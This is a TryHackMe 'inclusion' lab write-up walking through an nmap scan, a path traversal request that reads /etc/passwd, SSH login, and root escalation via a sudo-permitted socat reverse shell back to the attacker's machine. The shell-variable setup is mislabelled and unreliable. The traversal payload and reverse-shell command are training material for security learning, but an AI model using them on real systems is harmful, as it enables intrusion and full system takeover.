







# Write up TryHackMe [inclusion](https://tryhackme.com/room/inclusion)  

## [Task 1] Deploy  
First thing to do when a machine has been deployed is run nmap  

`nmap -sV -T4 -A -p- 10.10.56.74`  
```shell
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-10 14:52 CEST
Nmap scan report for 10.10.56.74
Host is up (0.056s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e6:3a:2e:37:2b:35:fb:47:ca:90:30:d2:14:1c:6c:50 (RSA)
|   256 73:1d:17:93:80:31:4f:8a:d5:71:cb:ba:70:63:38:04 (ECDSA)
|_  256 d3:52:31:e8:78:1b:a6:84:db:9b:23:86:f0:1f:31:2a (ED25519)
80/tcp open  http    Werkzeug httpd 0.16.0 (Python 3.6.9)
|_http-server-header: Werkzeug/0.16.0 Python/3.6.9
|_http-title: My blog
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 28.87 seconds
```

## [Task 2] Root it  

1. **user flag**  

    Checking the website on the IP given  
      

    Checking the on LFI-attack.  
      

    Let's try Directory Traversal / Path Traversal attack by calling:  
    `http://10.10.56.74/article?name=../../../../etc/passwd`  
    This GET request returns the content of passwd:
    
    
    By inspecting the content, the user `falconfeast` is found with SSH access.  
    Now login using SSH
    

    user flag found
    

1. **root flag**  

    On the remote host run the command `sudo -l` to find which  check what the user falconfeast can run as sudo.
    

    Google to learn more about socat.

    To install socat on mac first install [brew](https://brew.sh/) and then run the command `brew install socat`.

    **Gaining root acess**  
    First get your local VPN IP address by running ifconfig, on my computer it's found under utun2.

    On your local machine run the command ```socat file:`tty`,raw,echo=0tcp-listen:41337```  

    Go back to the falconfeast SSH connection and run the commands  
    `RHOST =  <your vpn ip address>`  
    `LHOST = 41337`  
    and then finally run the command  
    `sudo /usr/bin/socat tcp-connect:$RHOST:$RPORT exec:sh,pty,stderr,setsid,sigint,sane`  

    Go back to your local terminal and verify that connection has been etablished.
    
    
    Now cd to root directory and cat the root.txt

    Done!